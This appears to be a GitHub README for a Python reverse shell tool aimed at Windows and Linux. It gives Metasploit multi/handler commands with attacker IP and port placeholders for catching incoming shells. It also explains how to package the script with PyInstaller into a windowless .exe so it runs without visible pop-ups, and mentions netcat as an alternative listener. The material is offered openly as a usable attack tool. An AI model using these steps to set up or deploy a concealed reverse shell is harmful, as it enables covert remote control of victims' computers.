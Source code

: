 
# Python Reverse Shell for Windows / Linux
Reverse Shell written in Python3 - Modified version of TacticalCheerio/Python-Windows-Reverse-Shell

You can take advantage of post exploitation modules in Metasploit by using:

    msf> use exploit/multi/handler 
    msf> set PAYLOAD [linux/shell_reverse_tcp | windows/shell_reverse_tcp]
    msf> set LHOST <Attacker IP>      
    msf> set LPORT <Attacker Port>    
    msf> set ExitOnSession false
    msf> run -j

Minor edits made by me for formatting and preferences.

To use on Windows, create an executable using pyinstaller

    python -m pip install pyinstaller
    pyinstaller -wF ./reverse_shell.py

Useful PyInstaller Options:
> -w removes pop up windows
>
> -F outputs a portable .exe file in the ./dist/ folder

This also works with a netcat as a listener for the attacking server.
